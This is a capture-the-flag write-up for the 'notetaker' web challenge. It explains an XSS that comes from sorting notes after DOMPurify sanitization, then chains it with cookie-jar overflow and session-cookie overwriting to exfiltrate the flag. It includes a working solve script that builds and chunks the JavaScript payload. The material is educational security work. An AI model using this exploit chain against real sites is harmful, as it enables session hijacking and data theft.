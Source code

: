 ```yaml
---
created: 2025-08-27T17:42
updated: 2025-08-27T17:58
---
```


Apparently during play test my teammates thought this was a DOMPurify zero day.

## xss
But the basic idea of this challenge is that there is modification after purify, which is a very big red flag.

This is on the profile page.

```js
const data = atob("USER_DATA");
const sort = new URLSearchParams(window.location.search).get('sort') || 'none';
const entries = DOMPurify.sanitize(data).split('\n').filter(entry => entry.trim() !== '');
if (sort === 'asc') entries.sort();
else if (sort === 'desc') entries.sort().reverse();
document.getElementById('history').innerHTML = entries.map(e => `<li>${e}</li>`).join('');
```

The notes are sorted (modified) after purification.

And the server has a faulty `.replace` and keeps all newlines after the first replacement.

@Jorian gave a very nice explanation on this.

```html
" onerror=alert() "
<img src alt="value
with
newlines">
```
> DOMPurify would see the above as safe and output it basically as-is. But if the 1st line is re-ordered to be on the 3rd line, for example, it would inject an attribute and trigger XSS with
```html
<img src alt="value
" onerror=alert() "
newlines">
```

## payload

The next part is getting the flag and sending it back to us. The XSS bot is not allowed to connect to anything other than the site, so we need to send the flag back to us as a note.

### getting information out

However the admin user has a random UUID and new notes also have random UUID so the only way to see the note is either we are admin or we make the admin login as us.

The cookie is HTTP-only so we can't really steal admin's identify, however we are able to overwrite HTTP-only cookies.

We just need to overflow the cookie jar and at that point the old cookie is simply deleted.

### getting the flag itself

There are multiple ways to do this, `connect-src 'none';` prevents directly using `fetch`, but you can use `window.open` or you can use `iframe`.

### deploying the payload

The profile page also has a character limit, so you just got to be creative. Some teams solved it manually but I have an automated script to generate each subpayload.


## solve script

```python
import base64
import requests
target = "http://localhost:8000"
target = "https://notetaker.chall.wwctf.com"
s = requests.Session()

s.post(f"{target}/register", data={
    "name": "test"
})
print(s.get(f"{target}/me").url.replace('localhost', 'web')+"?sort=asc")

token = s.cookies.get("token")
print(token)
payload = f"""
(function() {{
    const iframe = document.createElement('iframe');
    iframe.src = '/flag';
    document.body.appendChild(iframe);
    const form = document.createElement('form');
    form.id = 'flagForm';
    form.action = '/';
    form.method = 'POST';
    const ti = document.createElement('input');
    ti.name = 'title';
    ti.id = 'ti';
    ti.value = 'flag';
    const ci = document.createElement('input');
    ci.name = 'content';
    ci.value = 'dummy';
    form.appendChild(ti);
    form.appendChild(ci);
    document.body.appendChild(form);
    iframe.onload = () => {{
        try {{
            const flag = iframe.contentDocument.body.innerText;
            ci.value = '['+flag;
            for (let i = 0; i < 700; i++) {{
                document.cookie = `cookie${{i}}=${{i}}`;
            }}
            document.cookie = 'token={token}; SameSite=Lax; path=/';
            form.submit();
        }} catch (e) {{
            console.error('Error:', e);
        }}
    }};
}})();
""".strip()
payload = base64.b64encode(payload.encode()).decode()
max_l = 35
payload_chunks = [payload[i:i+max_l] for i in range(0, len(payload), max_l)]
#http://web:8000/user/37b74d40-9697-428f-b109-7ed00ef65451?sort=asc
s.post(target, data={
    "title": "a</a>\n\n*000<img id=\"",
    "content": "dummy"
})
s.post(target, data={
    "title": "\"a\n\n*001\" onerror='location=\"javascript:\"+/*",
    "content": "dummy"
})
s.post(target, data={
    "title": f"\"a\n\n*002*/atob(/*",
    "content": "dummy"
})
for i, chunk in enumerate(payload_chunks):
    s.post(target, data={
        "title": f"\"a\n\n*{(i+3):03d}*/\"{chunk}\"+/*",
        "content": "dummy"
    })
s.post(target, data={
    "title": "\"a\n\n*999*/\"\")' src='1'<img>",
    "content": "dummy"
})
```

```flag
wwf{imagine_if_you_actually_solved_this_with_a_dompurify_zeroday}
```
